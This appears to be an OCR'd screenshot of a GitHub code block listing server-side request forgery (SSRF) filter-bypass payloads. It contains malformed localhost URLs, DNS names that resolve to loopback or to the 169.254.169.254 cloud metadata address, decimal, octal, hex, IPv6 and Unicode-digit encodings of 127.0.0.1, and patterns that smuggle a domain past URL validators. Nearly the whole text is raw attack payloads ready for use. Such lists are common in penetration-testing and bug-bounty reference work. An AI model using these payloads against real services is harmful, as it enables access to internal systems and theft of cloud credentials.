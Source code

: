 ```bash

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
<http://0/>
<http://127.1>
<http://127.0.1>

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
<http://customer1.app.localhost.my.company.127.0.0.1.nip.io>
<http://bugbounty.dod.network> = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

### various bypasses

```xml
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
```